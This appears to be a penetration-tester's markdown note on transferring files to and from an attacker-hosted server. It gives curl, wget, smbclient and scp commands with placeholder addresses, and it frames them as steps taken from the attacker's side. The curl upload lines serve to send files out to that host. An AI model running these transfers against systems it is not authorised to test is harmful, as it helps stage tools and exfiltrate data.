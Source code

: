 
For a collection of methods on hosting, reference my [Hosting as the Attacker](./Hosting%20as%20the%20Attacker.md) note.
### Downloading and Uploading via Common Web Tools
---
**CURL**
- Supports both downloading and uploading files.

```shell
# Download File from Web Server
curl http://<ip_addr>/<filename> -o <outfile>

# Download File from custom HTTPS Web Server
curl https://<ip_addr>/<filename> -o <outfile> -k

# Upload File to Web Server
curl -X POST -F "file=@<file_path>" http(s)://<ip_addr>/<filename>

# Upload File to custom HTTPS Web Server
curl -X POST -F "file=@<file_path>" http(s)://<ip_addr>/<filename> -k
```

**WGET**
- Supports only downloading files.

```shell
# Download File from Web Server
wget http://<ip_addr>/<filename> -O <outfile>

# Download File from custom HTTPS Web Server
wget https://<ip_addr>/<filename> -O <outfile> --no-check-certificate
```

### Downloading and Uploading via SMB
---

```shell
# Download File from Share
smbclient //<ip_addr>/share/ -N -c 'get <filename>'

# Upload File to Share
smbclient //<ip_addr>/share/ -N -c "put <filename>"
```

### Alternative Methods
---
Assuming SSH is enabled, you can use SCP.

```shell
# File Download via SCP
scp <username>@<ip_addr>:<file_path> <outfile>

# File Upload via SCP
scp <file_path> <username>@<ip_addr>:<out_path>
```